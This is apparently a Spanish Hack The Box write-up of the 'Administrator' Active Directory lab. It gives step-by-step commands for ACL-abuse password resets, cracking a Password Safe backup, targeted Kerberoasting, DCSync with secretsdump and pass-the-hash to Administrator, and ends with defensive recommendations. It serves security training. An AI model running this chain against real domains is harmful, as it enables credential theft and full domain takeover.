# Administrator — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟡 Media
**SO:** Windows (Active Directory)
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · `kerbrute` · BloodHound (abuso de ACLs encadenado) · Reset de contraseña (`net rpc password`) · FTP → base de datos **Password Safe** (`.psafe3`) crackeada offline · **Kerberoasting dirigido** (`targetedKerberoast.py`) vía `GenericWrite` · **DCSync** (`secretsdump`) → pass-the-hash → SYSTEM

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración — usuarios válidos y BloodHound](#2-enumeración--usuarios-válidos-y-bloodhound)
3. [Acceso inicial — cadena de abuso de ACLs](#3-acceso-inicial--cadena-de-abuso-de-acls)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — Kerberoasting dirigido y DCSync](#escalada-de-privilegios--kerberoasting-dirigido-y-dcsync)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Flujo de ataque](#7-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.92.32
```



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.92.32
```



```bash
enum-nmap AllPorts
```



> 💡 25 puertos abiertos, entre ellos **21 (FTP)** junto al conjunto clásico de un **controlador de dominio de Active Directory** (53, 88, 389, 445, 464, 636, 3268, 3269, 5985).

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668 -oN Ports 10.129.92.32
```



```
21/tcp  open  ftp   Microsoft ftpd
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: administrator.htb, ...)
Service Info: Host: DC; OS: Windows
```

> 💡 Dominio **`administrator.htb`**, controlador de dominio **`DC`**. El servicio FTP abierto en un controlador de dominio es poco habitual y será clave más adelante.

Añadimos el dominio al `/etc/hosts`:



## 2. Enumeración — usuarios válidos y BloodHound

```bash
kerbrute userenum --dc 10.129.92.32 --domain administrator.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```



```
michael, benjamin, administrator, emily, olivia, ethan
```

Con las credenciales de dominio dadas al inicio de la máquina (`olivia:ichliebedich`), recolectamos información con BloodHound:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.92.32 -c All --zip
bloodhound-start
```

En la interfaz gráfica, buscamos qué puede controlar `olivia`:



```
olivia --[GenericAll]--> michael
```

## 3. Acceso inicial — cadena de abuso de ACLs

`olivia` tiene **`GenericAll`** sobre `michael` — control total, incluido el reseteo de su contraseña sin conocer la actual:

```bash
net rpc password "michael" "Arabot3105" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.129.92.32
```



```bash
crackmapexec smb 10.129.92.32 -u michael -p 'Arabot3105'
```



Repetimos la consulta de BloodHound ahora sobre `michael`:



```
michael --[ForceChangePassword]--> benjamin
```

```bash
net rpc password "benjamin" "Arabot3105" -U "administrator.htb"/"michael"%"Arabot3105" -S 10.129.92.32
```



```bash
crackmapexec smb 10.129.92.32 -u benjamin -p 'Arabot3105'
```



Con `benjamin`, probamos el servicio FTP:

```bash
ftp 10.129.92.32
# benjamin / Arabot3105
ftp> get Backup.psafe3
```


> 💡 **`.psafe3`** es el formato de base de datos cifrada de **Password Safe**, un gestor de contraseñas de código abierto. Todo su contenido se protege con una única contraseña maestra.



## 4. Obtención de shell

Extraemos el hash de la contraseña maestra y lo crackeamos offline:

```bash
pwsafe2john Backup.psafe3 > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```




```
tekieromucho
```

Abrimos la base de datos con esa contraseña maestra:

```bash
pwsafe Backup.psafe3
```





```
olivia:ichliebedich
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```



Validamos las nuevas credenciales contra WinRM:

```bash
crackmapexec winrm 10.129.92.32 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```



```bash
evil-winrm -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -i 10.129.92.32
```



`user.txt` confirmado en el escritorio de `emily` — primera flag.

### Escalada de privilegios — Kerberoasting dirigido y DCSync

Volvemos a BloodHound, esta vez centrados en `emily`:



```
emily --[GenericWrite]--> ethan
```

`GenericWrite` sobre una cuenta permite, entre otras cosas, asignarle un SPN temporal — el requisito para hacerla objetivo de Kerberoasting:

```bash
python3 targetedKerberoast.py -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --dc-ip 10.129.92.32 -v
```



```
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$...
```

Crackeamos el hash TGS offline:

```bash
hashcat -m 13100 hash1 /usr/share/wordlists/rockyou.txt
```



```
limpbizkit
```

Consultamos BloodHound de nuevo, ahora para `ethan`:



```
ethan --[GetChanges, GetChangesAll]--> administrator.htb (dominio)
```

> 💡 **`GetChanges`** + **`GetChangesAll`** son los derechos necesarios para ejecutar un ataque **DCSync**: solicitar al controlador de dominio que "replique" las credenciales de cualquier cuenta, incluido Administrator.

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@10.129.92.32
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<hash NT>:::
```

Validamos y usamos el hash de Administrator:

```bash
crackmapexec winrm 10.129.92.32 -u administrator -H '<hash NT>'
```



```bash
evil-winrm -u 'administrator' -H '<hash NT>' -i 10.129.92.32
```



`root.txt` confirmado en el escritorio de Administrator — compromiso total del dominio.

## 5. Post-explotación y flags

Las capturas disponibles muestran la lectura de `user.txt` y `root.txt`, pero sus valores exactos no se reproducen en este writeup a propósito.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Permisos ACL encadenados (`GenericAll`, `ForceChangePassword`) entre cuentas de usuario estándar | `olivia → michael → benjamin` | Permite resetear contraseñas en cascada sin conocer ninguna contraseña real |
| Servicio FTP expuesto en el controlador de dominio con credenciales de usuario válidas | Puerto 21 | Acceso a una copia de seguridad con secretos |
| Base de datos de gestor de contraseñas (`.psafe3`) con contraseña maestra débil | `Backup.psafe3` | Filtración de las credenciales de varias cuentas adicionales |
| `GenericWrite` sobre una cuenta de usuario | `emily → ethan` | Permite asignar un SPN temporal y ejecutar Kerberoasting dirigido |
| Derechos de replicación (`GetChanges`/`GetChangesAll`) sobre el dominio asignados a una cuenta de usuario estándar | `ethan` | Ataque **DCSync**: volcado completo de credenciales del dominio, incluido Administrator |

## Recomendaciones defensivas

- Auditar periódicamente las ACLs de Active Directory con BloodHound (o herramientas equivalentes) desde la perspectiva de cualquier usuario estándar, no solo de cuentas privilegiadas.
- No exponer servicios como FTP en un controlador de dominio salvo necesidad estrictamente justificada, y nunca con copias de seguridad de credenciales accesibles.
- No almacenar bases de datos de gestores de contraseñas en ubicaciones accesibles por cuentas de bajo privilegio; exigir contraseñas maestras robustas.
- Restringir la concesión de `GenericWrite`/`GenericAll`/`ForceChangePassword` a cuentas de usuario estándar sobre otras cuentas.
- Restringir estrictamente los derechos de replicación (`Replicating Directory Changes`/`All`) a controladores de dominio legítimos y cuentas de backup estrictamente necesarias.
